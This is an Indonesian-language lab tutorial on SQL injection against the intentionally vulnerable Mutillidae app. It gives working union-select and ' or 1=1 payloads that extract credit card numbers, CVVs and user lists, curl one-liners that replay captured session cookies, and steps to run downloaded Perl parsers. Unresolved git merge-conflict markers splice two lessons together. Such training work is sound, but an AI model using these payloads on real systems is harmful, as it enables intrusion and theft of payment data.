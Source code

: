 
Lesson 8 - SQL Injection Union Exploit #1
-------

### # Mempersiapkan Burp Suite dan Firefox

- **Step 1** : Buka halaman user info. Pilih sidebar. OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info
![](/assets/lesson-7/VirtualBox_kali_19_12_2017_03_01_34.png)


-  **Step 2** : Setting proxy pada firefox dengan membuka pengaturan network melalui open menu --> Preferences -> Advanced --> Network

- **Step 3** : Pada bagian connection, klik tombol _Settings_. Setelah mengklik tombol _Settings_, maka akan muncul kotak dialog _Connection Settings_. Atur _Connection Settings_ sesuai gambar.
![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_06_35.png)

- **Step 4** : Buka burpsuite, dengan cara pilih Applications --> Web Application Analysis --> burpsuite
![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_10_12.png)


 - **Step 5** : Pada saat burpsuite telah dibuka, maka akan ditanyakan tentang project. Klik tombol Next 
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_24_51.png)
 
 - **Step 6** : Setelah menekan tombol next, maka selanjutnya ada memilih konfigurasi burp. Pilih radio button User Burp defaults dan Klik Start Burp
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_26_28.png)
 
 - **Step 7** : Setelah menekan tombol Start Burp, maka aplikasi Burp Suite sudah berjalan. Langkah selanjutnya adalah memastikan apakah port proxy pada Burp Suite adalah 8080, dengan cara memilih menu Proxy --> Options
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_31_58.png)
 
 - **Step 8** : Setelah memastikan port porxy 8080, maka selanjutnya adalah mematikan Intercept pada menu Proxy --> Intercept.
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_34_07.png)
 
 
<<<<<<< HEAD
### # SQL Injection (Union Example #1)
 
 - **Step 1** : Buka halaman user info. Pilih sidebar. OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info
![](/assets/lesson-7/VirtualBox_kali_19_12_2017_03_01_34.png)


- **Step 2** : Ubah ukuran text box username menjadi 100% menggunakan inspect element agar text box lebih panjang untuk menuliskan syntax SQL Injection.
![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_37_43.png)

- **Step 3** : Masukkan syntax sql `' union select null -- ` pada text box name untuk perbocaan pertama melakukan sql injection dan tekan tombol _View Account Details_.
 ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_40_50.png)
 
- **Step 4** : Setelah menekan tombol _View Account Details_, maka akan terjadi error query karena jumlah kolom dan kolom union berbeda.
![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_44_12.png)

- **Step 5** : Lakukan **Step 2** kembali. Setelah melakukan **Step 2**, lakukan kembali **Step 3** dengan menambah `null` pada syntax query sql injection. Contoh penambahan `null` pada query sql injection `' union select null,null -- `.

- **Step 6** :  Lakukan **Step 5** sampai jumlah kolom union dan kolom table accounts sama. `' union select null,null,null,null,null -- ` adalah syntax query hasil percobaan **Step 5**. Dapat disimpulkan jumlah kolom pada table accounts adalah 5.

- **Step 7** : Masukkan query sql injection `' union select null,null,null,null,null -- ` pada textbox name. Dan kemudian tekan tombol _View Account Details_.
![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_56_23.png)

- **Step 8** : Setelah menekan tombol _View Account Details_, maka hasilnya akan menunjukan kolom yang ditampilkan pada web.
![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_58_23.png)

- **Step 9** : Lakukan **Step 7** kembali dengan mengganti `null` menjadi angka dengan query sql injection sebagai berikut `' union select 1,2,3,4,5 -- `
 ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_03_20.png)
 
- **Step 10** : Dapat dilihat dari hasil percobaan **Step 9** bahwa kolom username diisi oleh nomer 2, password diisi oleh nomer 3 dan Signature diisi oleh nomer 4.
 
 ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_04_19.png)

- **Step 11** : Langkah selanjutnya adalah melakukan serangan sql injection dengan menggabungkan dengan tabel yang sudah diketahui selain accounts. Contohnya menggunakan tabel credit_cards, sehingga query sql injectionnya menjadi `' union select ccid,ccnumber,ccv,expiration,null from credit_cards -- `
 ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_10_49.png)
 
- **Step 12** : Maka hasilnya, bagian username diisi oleh ccnnumber, password diisi oleh ccv, dan signature diisi oleh expiration. 
 ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_12_04.png)
 

### # Curl Action
- **Step 1** : Buka Burp Suite dan cari log hasil sniffing pada **step 12** pada bagian SQL Injection (Union Example #1), kemudian catat/copas raw header request.
![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_17_58.png)

- **Step 2** : Copas Cookie pada hasil header dan masukkan pada file crack_cookies.txt
 ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_21_02.png)
 
- **Step 3** : Jalankan perintah 
`curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.151.36.64/mutillidae/index.php" | grep -i "Username=" | awk 'BEGIN{FS="<"}{for (i=1; i<=NF; i++) print $i}' | awk -F\> '{print $2}'` 
dan lihat hasilnya. Hasilnya adalah data hasil sql injection.
 ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_23_28.png)
 
### # Perl Parser
- **Step 1** : Download lesson8.pl pada link berikut [http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson8/lesson8.pl.TXT](/http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson8/lesson8.pl.TXT)
- **Step 2** : Ganti nama lesson8.pl.TXT menjadi lesson8.pl dan ubah permission menjadi `rwx------` atau 700.
 ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_39_29.png)
- **Step 3** : Jalankan perintah 
`curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.151.36.64/mutillidae/index.php" | grep -i "Username="  > lesson8.txt`
- **Step 4** : Setelah menjalankan perintah tersebut maka hasil perintah pada **Step 3** disimpan pada file lesson8.txt.
 ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_42_37.png)
- **Step 5** : Jalankan file lesson8.pl dan lihat hasilnya.
 ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_43_37.png)

 





 
  


 
 
=======
 ### # SQL Injection: Obtain Userlist (Method #1)
 - **Step 1** : Buka halaman user info. Pilih sidebar. OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info
 - **Step 2** : Melakukan SQL Injection untuk mendapatkan semua user tanpa password dengan cara memasukkan `' or 1=1--` pada kolom username. Kemudian tekan tombol _View Account Detail_.
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_51_37.png)
 
 - **Step 3** : Setelah menekan tombol _View Account Detail_, maka halaman akan muncul error query. Perhatikan syntax query yang digunakan. 
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_42_33.png)
 
 - **Step 4** : Setelah melihat syntax query yang digunakan bahwa syntax comment `--` untuk sql tidak berjalan karena kurang spasi. Maka selanjutnya adalah menambahkan spasi setelah tanda comment sql `--` menjadi `' or 1=1-- `. Kemudian tekan tombol _View Account Detail_ lagi.
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_52_52.png)
 
 
 - **Step 5** : Maka hasilnya kita mendapatkan data user. 
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_55_56.png)
 
 - **Step 6** : Buka Burp Suite kemudian pilih menu Proxy -> HTTP History. Kemudian cari log hasil sniffing **step 5**. Perhatikan header requestnya.
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_17_03_16.png)
 
 
 #### # Simulate CURL SQL Injection: (Method #2)
 - **Step 1** : Copy cookies PHPSESSID pada header request pada Burp Suite Bagian SQL Injection: Obtain Userlist (Method #1) **Step 6** dan simpan pada file crack_cookies.txt
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_17_49_09.png)
 - **Step 2** : Jalankan perintah
 
 `curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+or+1%3D1--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.151.36.64/mutillidae/index.php" | grep -i "Username=" | awk 'BEGIN{FS="<"}{for (i=1; i<=NF; i++) print $i}' | awk -F\> '{print $2}'`
 
 - **Step 3** : Setelah menjalankan perintah, hasil dari curl sql injection dapat dilihat pada terminal.
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_17_57_09.png)
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_18_03_41.png)
 
#### # Perl Parser

 - **Step 1** : Download perl parser lesson 7 pada link berikut [http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson7/lesson7.pl.TXT](http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson7/lesson7.pl.TXT)
 
 - **Step 2** : Ganti nama file lesson7.pl.TXT menjadi lesson7.pl, kemudian ubah permission file tersebut menjadi `rwx------` atau 700.
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_18_08_20.png)

 - **Step 3** : Jalankan perintah 
 `curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+or+1%3D1--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.151.36.64/mutillidae/index.php" | grep "Username=" > lesson7.txt`. Perintah tersebut akan menyimpan hasil curl pada file lesson7.txt
 
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_18_11_36.png)
 
 **Step 4** : Jalankan lesson7.pl dan kemudian lihat hasilnya.
 ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_18_14_03.png)
 
 
